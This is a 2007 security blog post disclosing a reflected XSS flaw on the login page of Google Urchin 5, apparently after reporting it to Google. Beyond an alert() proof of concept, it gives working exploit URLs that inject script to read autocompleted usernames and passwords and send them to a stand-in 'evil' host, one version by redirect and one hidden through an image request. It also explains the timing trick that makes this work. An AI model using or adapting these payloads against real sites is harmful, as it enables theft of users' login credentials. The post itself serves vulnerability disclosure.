 ```yaml
---
title: Google Urchin Password Theft Madness
author: adrian-pastor
date: Mon, 24 Sep 2007 14:14:49 GMT
template: post.jade
category: fucked
---
```


There is a trivially exploitable XSS vul on [Google Urchin Web Analytics 5](http://www.google.com/search?q=intext%3A%22Urchin+Web+Analytics+v5%22)'s login page. The vulnerability has been tested on versions `5.6.00r2`, `5.7.01`, `5.7.02` and `5.7.03` (latest). Previous versions are most likely to be affected as well. In case you didn't know, [Google Urchin](http://www.google.com/analytics/urchin_downloads.html) is the **install** version of Google Analytics.

I reported the issue to Google back on Jul 25 and was confirmed by their security team. They are now working on a fix. My original plan was to publish this info after a fix would be released. However, the issue [has also been found](http://ha.ckers.org/blog/20070823/xss-and-possible-information-disclosure-in-urchin/) by other folks about a month ago. As usual, the researcher loses credit when following the responsible disclosure route. Here is the boring POC:

	http://target/session.cgi?"><script>alert('XSS')</script><!--

You might have heard before that a XSS vulnerability on a login page is nasty. However most people think that the worst thing you can do is inject a form in order to perform a phishing attack. Although it's true this is a good example of what you can do, we can also do more advanced XSS phishing attacks that are even harder to detect. My two favorite tricks when finding a XSS vul on a login page are:

* **Overwriting** the login form's `action` attribute so that the victim's username and password are stolen when clicking on Login
* **Stealing** autocomplete data so that victim username and password are stolen _by simply clicking on our exploit URL_ (juicy!)

    Anyway, let's get to the point. I know that you're sick of XSS PoCs that only open alert boxes. So here is a exploit URL that will steal the victim's username and password by simply clicking on it. The only requirement is that the victim is using the "autocomplete passwords" feature, aka "Remember passwords for sites":

    http://target/session.cgi?"></form><script>setTimeout("location%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

    Using `location` is great for redirecting information to third-party sites. The problem is that the current window will change to show the evil site. Although this is great for demo purposes, it sucks when it comes to being stealth, since the victim can actually see his/her credentials being sent to another website on the address bar. Instead, we can dynamically create an image with JavaScript so _the credentials are stolen in the background:_

    http://target/session.cgi?"></form><script>h%3dnew%20Image();setTimeout("h.src%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

The following video shows the previous exploit in action. I don't think the quality of the video is that good, but oh well. Basically what it shows is how after visiting the exploit URL, the username and password are sent to google.com in the background. I use Paros in the video to demonstrate that the credentials do indeed get sent to google.com.

<iframe class="video" src="http://www.youtube.com/embed/wCUovL9WLVQ" frameborder="0" allowfullscreen></iframe>

If you look at the code, you'll notice that we wait 1.5 secs using the _setTimeout()_ function before forwarding the credentials to the evil site. The reason for this is because we need to let the browser auto-complete the fields before performing the redirect. Otherwise the value of the username and password field would be blank by the time we steal them. 

_The PoC has been tested on the latest version of FF (2.0.0.7 at time of writing) and does _not_ work on IE 7, but _might_ work on IE 6. This doesn't mean you cannot do a auto-complete password theft attack on IE 7, it just needs a bit of more work! If you want to know the reason behind this difference is that IE 7 requires the user to first type or choose the username from the auto-complete drop-down menu, <em>before_ the password field is automatically filled.</em>
